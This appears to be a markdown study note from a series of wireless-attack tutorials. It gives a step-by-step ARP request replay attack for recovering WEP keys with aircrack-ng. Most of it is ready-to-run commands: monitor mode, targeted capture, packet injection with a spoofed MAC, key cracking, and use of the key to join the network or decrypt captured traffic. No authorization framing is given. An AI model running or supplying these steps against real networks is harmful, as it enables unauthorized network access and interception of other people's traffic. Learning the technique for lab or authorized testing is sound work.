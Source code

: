# Chain #19: ARP Request Replay Attack

## Purpose
Turn a captured ARP request into a high‑volume IV generator to speed up WEP key recovery with aircrack‑ng.

---
## Key Terms

- **IV (Initialization Vector)**: 24‑bit nonce prepended to the WEP key for RC4. Collecting many IVs enables statistical key recovery.
- **ARP (Address Resolution Protocol)**: Small, easily recognizable broadcast packets in LANs; ideal for replay because APs respond quickly.
- **ARP Request Replay (aireplay‑ng `-3`)**: Listens for a valid ARP request, re‑injects it to the AP, which re‑sends it repeatedly with new IVs.
- **PTW vs. Korek/FMS**: Aircrack‑ng’s default **PTW** statistical attack needs fewer IVs than older **Korek/FMS** methods.

---
## Step‑by‑Step Workflows

### 1) Enable monitor mode (see Chain 01/03 for background)

```bash
sudo airmon-ng start wlan0
```

- If warned about NetworkManager / wpa_supplicant, consider: `sudo airmon-ng check kill`.    
- Confirm:

```bash
iwconfig
# Expect: wlan0mon  IEEE 802.11  Mode:Monitor ...
```

### 2) Passive capture on the target AP (collect frames + IVs)

Lock to the AP’s channel and write captures to disk:

```bash
sudo airodump-ng wlan0mon -c 1 -w WEP
# -> creates WEP-01.cap (and related files)
```

- Optional focus on one BSSID: add `--bssid <AP_BSSID>`.

### 3) Launch ARP Request Replay (in a second terminal)

```bash
sudo aireplay-ng -3 -b B2:D1:AC:E1:21:D1 -h 4A:DD:C6:71:5A:3B wlan0mon
```

- `-3` = ARP request replay mode.
- `-b` = target AP BSSID.
- `-h` = your (spoofed or actual) client MAC used for injection.
- Tip: If you see **“The interface MAC ... doesn’t match the specified MAC (-h)”**, align them:

```bash
sudo ifconfig wlan0mon hw ether 4A:DD:C6:71:5A:3B
```

- Keep **airodump‑ng** running to capture replies while aireplay‑ng re‑injects.
- Healthy output looks like rapidly rising “got ARP requests … sent … (XXX pps)”.

### 4) Crack the WEP key with aircrack‑ng

After enough IVs accumulate in `WEP-01.cap`, attempt cracking:

```bash
sudo aircrack-ng -b B2:D1:AC:E1:21:D1 WEP-01.cap
# Default: PTW attack when applicable
```

- If you explicitly want Korek/FMS heuristics:

```bash
sudo aircrack-ng -K WEP-01.cap
```

### 5) Use the recovered key

Two common follow‑ups:

- **Connect** to the WEP network (see Chain 07’s WEP config with `wpa_supplicant`).    
- **Decrypt the capture** offline for analysis:

```bash
sudo airdecap-ng -w <WEP_hex_key> WEP-01.cap
# -> WEP-01-dec.cap
```

---
## Reference Snippets / Flags

- Monitor‑mode check: `iwconfig` → look for `Mode:Monitor`.    
- Airodump‑ng essentials:
    - `-c <ch>`: lock channel.
    - `--bssid <AP>`: stick to one AP.
    - `-w <prefix>`: write capture files.
- Aireplay‑ng (ARP replay):
    - `-3`: ARP request replay.
    - `-b <BSSID>`: target AP MAC.
    - `-h <STA>`: sender MAC used in injected frames.
- Aircrack‑ng:
    - default PTW (when data supports it).
    - `-K`: Korek/FMS methods.

---
## Summary

1. Put your NIC in **monitor mode**. 2) **Capture** on the AP’s channel with `airodump-ng`. 3) **Re‑inject** ARP requests with `aireplay-ng -3` to force the AP to emit many **new IVs**. 4) **Crack** with `aircrack-ng` (PTW by default). 5) **Use** the key to connect or decrypt captures.    

---
## Appendix – Fact‑Check Notes

- **Mechanics of ARP Request Replay** (capture ARP → re‑inject → AP resends with new IVs): Aircrack‑ng wiki “ARP request reinjection”. aircrack-ng.org/doku.php?id=arp-request_reinjection    
- **Aireplay‑ng purpose & `-3` attack**: Aircrack‑ng tool page. aircrack-ng.org/doku.php?id=aireplay-ng
- **PTW vs. FMS/Korek data needs**: Sources vary by dataset and success threshold. Aircrack‑ng docs emphasize “very few packets” for PTW; Wikipedia summarizes research as ~35–40k packets for ~50% success with PTW and hundreds of thousands to ~1M+ for FMS/Korek depending on conditions. aircrack-ng.org/doku.php?id=aircrack-ng ; en.wikipedia.org/wiki/Aircrack-ng
- **Using Airdecap‑ng after key recovery**: See Chain 05 in this series for exact flags and workflow.
